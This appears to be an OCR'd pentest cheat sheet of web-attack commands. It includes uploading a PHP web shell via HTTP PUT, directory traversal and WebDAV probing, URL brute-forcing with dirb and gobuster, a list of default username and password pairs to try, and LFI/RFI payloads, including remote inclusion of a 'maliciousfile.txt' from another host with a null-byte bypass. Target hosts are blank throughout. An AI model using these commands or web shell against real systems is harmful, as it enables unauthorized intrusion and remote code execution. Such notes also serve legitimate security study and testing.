 ```
curl  -s -L | html2text -width '99' | uniq

# Check if it is possible to upload using put
curl -v -X OPTIONS http:///
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http:///test/shell.php

# Check for directory traversal
dotdotpwn.pl -m http -h  -M GET -o windows

#### DAV
davtest -url http://<IP> 
cadaver

#### Url brute force


# Dirb
dirb http:// -r -o dirb-.txt


# Gobuster - remove relevant response codes (403 for example)
gobuster -u http:// -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e


#### Default/Weak login

Google documentation for default passwords and test them:


site:webapplication.com password

admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice


#### LFI/RFI


# Kadimus
/root/Tools/Kadimus/kadimus -u http:///example.php?page=


# Bypass execution
http:///index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http:///page=http://192.168.1.101/maliciousfile.txt%00
http:///page=http://192.168.1.101/maliciousfile.txt?



```